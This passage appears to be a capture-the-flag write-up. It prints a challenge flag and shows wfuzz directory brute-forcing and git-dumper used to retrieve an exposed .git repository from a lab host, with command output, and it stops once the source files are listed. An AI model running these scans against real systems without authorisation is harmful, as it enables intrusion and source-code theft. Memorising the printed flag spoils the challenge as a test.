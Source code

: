 ### Let's count

#### FARADAY{7x7\_1s\_n0t\_@lw4ys\_49}

##### Exploitation  

By brute-forcing directories with `wfuzz`, we discover the presence of a `.git` directory. This indicates that an entire `project` repository is exposed, potentially allowing us to retrieve its contents and uncover sensitive information.

```
    ❯ wfuzz -c -w /usr/share/seclists/Discovery/Web-Content/common.txt -u http://10.13.37.14/FUZZ -t 100 --hc 404  
    ********************************************************
    * Wfuzz 3.1.0 - The Web Fuzzer                         *
    ********************************************************
    
    Target: http://10.13.37.14/FUZZ
    Total requests: 4713
    
    =====================================================================
    ID           Response   Lines    Word       Chars       Payload
    =====================================================================
    
    000000012:   200        10 L     58 W       3892 Ch     ".git/index"
    000000010:   200        1 L      2 W        23 Ch       ".git/HEAD"
    000000011:   200        8 L      20 W       141 Ch      ".git/config"
    000001212:   302        3 L      24 W       262 Ch      "configuration"
    000002511:   200        73 L     125 W      1847 Ch     "login"
    000002525:   302        3 L      24 W       218 Ch      "logout"
    000003304:   302        3 L      24 W       250 Ch      "profile"
    000003799:   200        81 L     129 W      1938 Ch     "signup"
  ```  

  

Using `git-dumper`we can dump all the files from the .git project

```
    ❯ git-dumper http://10.13.37.14/.git/ dump
    [-] Testing http://10.13.37.14/.git/HEAD [200]
    [-] Testing http://10.13.37.14/.git/ [404]
    [-] Fetching common files
    ..............................................  
 ```   

  

This will create a new directory called `dump`, in the dumped project we can find the base from which `web`it is running, we see the`app.py`

```
    dump ❯ ls -l 
    drwxr-xr-x kali kali 4.0 KB Thu Apr 20 23:17:21 2023  static
    drwxr-xr-x kali kali 4.0 KB Thu Apr 20 23:17:22 2023  templates
    .rw-r--r-- kali kali 8.0 KB Thu Apr 20 23:20:57 2023  app.py
    .rw-r--r-- kali kali 233 B  Thu Apr 20 23:17:20 2023  commit-meta.txt
    .rw-r--r-- kali kali 203 B  Thu Apr 20 23:17:20 2023  requirements.txt  
 ```   
